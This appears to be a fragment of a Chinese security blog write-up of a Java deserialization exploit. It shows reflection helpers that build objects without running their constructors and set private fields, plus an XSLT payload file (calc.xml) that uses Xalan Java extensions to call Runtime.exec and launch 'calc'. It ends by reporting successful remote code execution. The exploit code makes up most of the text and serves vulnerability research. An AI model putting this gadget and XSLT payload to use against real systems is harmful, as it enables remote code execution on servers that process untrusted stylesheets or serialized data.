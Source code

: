 ```java
    public static <T> T createWithoutConstructor(Class<T> classToInstantiate) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }

    public static <T> T createWithConstructor(Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T) sc.newInstance(consArgs);
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```
calc.xml：
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">
      <xsl:variable name="rtobject" select="rt:getRuntime()"/>
      <xsl:variable name="process" select="rt:exec($rtobject,'calc')"/>
      <xsl:variable name="processString" select="ob:toString($process)"/>
      <xsl:value-of select="$processString"/>
    </xsl:template>
</xsl:stylesheet>
```
![](https://img-blog.csdnimg.cn/b04bdc1692474d72a53ac77ff47e471a.png)

成功rce
